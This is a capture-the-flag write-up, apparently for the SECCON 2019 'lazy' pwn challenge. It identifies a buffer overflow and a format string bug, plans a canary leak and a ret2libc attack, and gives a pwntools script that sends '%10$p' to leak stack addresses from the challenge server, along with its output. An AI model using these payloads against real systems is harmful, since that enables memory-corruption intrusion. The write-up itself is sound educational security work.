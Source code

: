 Here are two exploitable vulnerabilities:
1. Buffer overflow in the `s` buffer
2. Format String vulnerability when printing the file name

## Exploitation plan
We saw previously the binary has no **PIE**, but has **FULL RELRO** so it's impossible to overwrite the **GOT**. We can still use the GOT to get libc leaks, tho.

This limits our exploitation options. We can use the buffer overflow to control the RIP by overwriting the saved RIP on the stack, but we have to bypass the `stack canary`. Luckily, we can leak it with our format string. But where would we return to? The perfect solution would be a ret2libc attack, but we don't know the libc that is used and we can't just download it since the program checks for `.` in the filename before calling the `download` function.

This `download` is pretty straightforward and only does a couple of security checks:

```c
if ( strlen(file_name) > 27 ){
    puts("Too long!");
    exit(-1);
}
if ( strstr(file_name, "..") ){
    puts("No directory traversal!");
    exit(-1);
}
...
file_len = strlen(file_name);
strncat(&dest, file_name, file_len - 1);
fd = open(&dest, 0);
puts(&dest);
```
Then it just sends us the file contents.

## Getting the Libc
With a few tests, I figured out that our input is at offset 6 from the `printf(s)`, so we could access our input directly via the positional argument `"%6$s"`.
We can also offset the saved EBP in the stack and leak it by using the `"%10$p"` format. With this, we can calculate the address of our input on the stack.

```python
s = remote(HOST, PORT)

s.sendline("2")
s.sendline("_H4CK3R_")
s.sendline("3XPL01717")
s.sendline("4")

leak_to_input_offset = 0x60
leak_fmt = "%10$p"

s.sendline(leak_fmt)
s.recvuntil("Filename : ")
leak = int(s.recvline().strip(), 16)
input_addr = leak - leak_to_input_offset

log.info("leak = {}".format(hex(leak)))
log.info("input @ {}".format(hex(input_addr)))
```
```
╭─vagrant@ubuntu-bionic ~/share/seccon19/pwn/lazy
╰─$ python exploit_leaks.py remote
[+] Opening connection to lazy.chal.seccon.jp on port 33333: Done
[*] leak = 0x7ffe4ee73ce0
[*] input @ 0x7ffe4ee73c80
```
